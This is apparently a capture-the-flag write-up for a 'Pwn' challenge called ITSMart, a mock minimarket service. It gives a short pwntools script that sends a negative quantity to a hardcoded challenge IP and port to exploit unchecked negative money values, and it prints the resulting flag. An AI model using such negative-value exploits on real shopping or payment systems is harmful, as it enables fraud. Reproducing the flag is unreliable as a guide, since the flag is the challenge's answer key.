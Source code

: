 # ITSMart
Category: Pwn

# Description
katanya ITS baru buka minimarket baru ya? <br>
coba deh belanja, tau tau dapat hadiah nanti xixixixi <br>
`nc <ip> <port>`
# Solution
When running `nc <ip> <port>` and trying the program, there is something interesting. <br>
![POC 1](images/POC%201.png) <br> 

The "uang" or money value is negative, so we can exploit this using this code
```
from pwn import *

def exploit(host, port):
    with remote(host, port) as io:
        payload = b'2\n-999999999\n69\n'
        io.send(payload)
        io.interactive()

exploit('34.101.202.34', 10002)
```
Here is the flag<br>
Flag: `HCS{m1nus_dikit_g4_ngaruh}`
